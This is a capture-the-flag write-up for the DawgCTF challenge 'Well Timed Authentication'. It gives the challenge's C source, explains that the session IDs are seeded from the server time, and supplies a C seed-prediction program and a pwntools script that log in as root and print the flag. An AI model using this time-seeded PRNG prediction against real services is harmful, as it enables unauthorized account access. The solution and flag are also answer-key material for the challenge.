

# Well Timed Authentication

## Description

> I made sure this program has no bugs. There is no way you can get in!
> 
> nc ctf.umbccd.io 5600

Attached is the following C file

```c
#include <unistd.h>
#include <time.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>

void printwelcomemessage();
void generatesessionids();

long authuser();
long passwdauth();
long sessionauth();

void runmyterminal();

void authwait();
void printtime();

const char* users[3] = {"TrueGrit", "root", "guest"};
#define users_len (sizeof (users) / sizeof (const char *))
#define TRUEGRIT 0
#define ROOT 1
#define GUEST 2
long sessionID[users_len];

int main(){
    setbuf(stdin, 0);
    printwelcomemessage();
    generatesessionids();
    while(1){
        int userid = authuser();
        if(userid < 0){
            printf("Could not authenticate. Goodbye.\n");
            exit(0);
        }
        runmyterminal(userid);
    }
          
}

void generatesessionids(){
    time_t curtime;
    struct tm * timeinfo;
    time(&curtime);
    srand(curtime);
    for(int i = 0; i < users_len; i++){
        sessionID[i] = (rand() ^ rand());
    }
}

void runmyterminal(int userid){
    while(1){
        printf("%s@umbc$ ", users[userid]);
        char command[64];
        memset(&command, 0, 64);
        fgets(command, 64, stdin);

        if(strncmp(command, "help", 4) == 0){
            printf("Available commands: ls, whoami, sid, dog, flag, time\n");
        }else if(strncmp(command, "ls", 2) == 0){
            system("ls");
        }else if(strncmp(command, "whoami", 4) == 0){
            printf("%s\n", users[userid]);
        }else if(strncmp(command, "sid", 3) == 0){
            printf("Session ID: %ld\n", sessionID[userid]);
        }else if(strncmp(command, "dog", 3) == 0){
            system("cat dog.txt");
        }else if(strncmp(command, "flag", 4) == 0){
            if(userid <= 1){
                system("cat flag.txt");
				sleep(2);
                exit(0);
            }else{
                printf("cat: flag.txt: Permission denied\n");
            }
        }else if(strncmp(command, "time", 4) == 0){
            printtime();
        }else if(strncmp(command, "logout", 6) == 0){
            printf("Logging out...\n");
            return;
        }else{
            printf("Unknown command.\nAvailable commands: ls, whoami, sid, dog, flag, time\n");
        }
    }
    

}

long authuser(){
    printf("(L)ogin normally or use (S)ession id? (L/S): ");
    char loginType = getchar();
    getchar(); // Consume newline

    if(loginType == 'l' || loginType == 'L')
        return passwdauth(); // Login using username and password
    
    if(loginType == 's' || loginType == 'S')
        return sessionauth(); // Login using session ID
    
        
    printf("Invalid option.\n");
    exit(0);
    
    
}

void printwelcomemessage(){
    system("cat dog.txt");
    printf("Welcome! Please login!\n");
}

long sessionauth(){
    char session[20];
    printf("Enter session ID: "); // Prompt session ID
    fgets(session, 20, stdin);
    long result = atol(session);
    int uid = -1;
    for(int i = 0; i < users_len; i++){
        if(sessionID[i] == result){
            uid = i;
        }
    }
    authwait();
    return uid;

}

long passwdauth(){
    int uid = -1;
    char username[64];
    char passwd[64];
    printf("login as: "); // Prompt username
    fgets(username, 64, stdin);
    username[strnlen(username, 64)-1] = 0; // null terminate
    if(strncmp(username, "guest", 64) == 0)// Guest doesn't need login
        return GUEST;
    
    printf("%s's password: ", username); // Prompt password
    fgets(passwd, 64, stdin);
    
    for(int i = 0; i < users_len; i++){ // Get user id
        if(!strncmp(username, users[i], 64)){
            uid = i;
            break;
        }
    }
    authwait();

    if(uid == -1){
        return -1;
    }
	
	FILE *fp = fopen("/dev/random", "r");
	if(fp == NULL){
		return -1;
	}
	char* line = NULL;
	size_t len = 64;
	getline(&line, &len, fp);
	if(line == NULL){
		return -1;
	}
	
	if(strncmp(passwd, line, 64) != 0){
		return -1;
	}else{
		return uid;
	}
	
}

void authwait(){
    printf("Authenticating");
    fflush(stdout);
    for(int i = 0; i < 3; i++){
        sleep(1);
        printf(".");
        fflush(stdout);
    }
    sleep(1);
    printf("\n");
}

void printtime(){
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);
    printf("Today's date and time is: %d-%d-%d %d:%d:%d\n", tm.tm_year + 1900, tm.tm_mon + 1,tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
}
```

## Solution

Let's analyse the source code. When connecting to the server, we need to authenticate. There are 3 users:
- guest
- TrueGrit
- root

There are two ways to authenticate:
- using password
- using session ID.

Guest doesn't need a password, so we can login as guest. However, it does not have access to flag, so let's try to connect as root. 

The root password is generated randomly as we try to connect by reading `/dev/random`, so this will be hard to guess the password. Moreover there does not seem to be any vulnerability to bypass the password authentication.

However, the session ID is generated using the C pseudorandom generator as the program is launched. Moreover, the seed is just `time()`, so if we can leak the server's time we can generate the same randomness as the server. 

This is easily done thanks to the `time` command in the terminal: we can login as guest, and `time` leaks the time of the server. Therefore we can compute the offset between the server and our local machine, and therefore as we launch the program, we can generate the same seed than the server, and get the same session ID.

The following C script generates the root session ID.

```c
#include <time.h>
#include <stdio.h>
#include <stdlib.h>

#define OFFSET 0

int main() {
    
    time_t t = time(NULL);
    srand(t + OFFSET);
    rand() ^ rand(); // Truegrit session ID
    printf("%d\n", rand() ^ rand()); // root ID
    return 0;
}
```

Then we can use this to connect.

```python
import os
from pwn import *

sh = remote("ctf.umbccd.io", 5600)

root_session = os.popen("./rand").read()
print(root_session)

print(sh.recvuntil("(L/S): ").decode())
sh.sendline("s") # Connect using session ID
print(sh.recvuntil("ID: ").decode())
print(root_session)
sh.sendline(root_session) # send session ID
sh.interactive()
```



Flag: `DawgCTF{ps3ud0_r4nd0m_1s_n0t_tru3_r4nd0m}`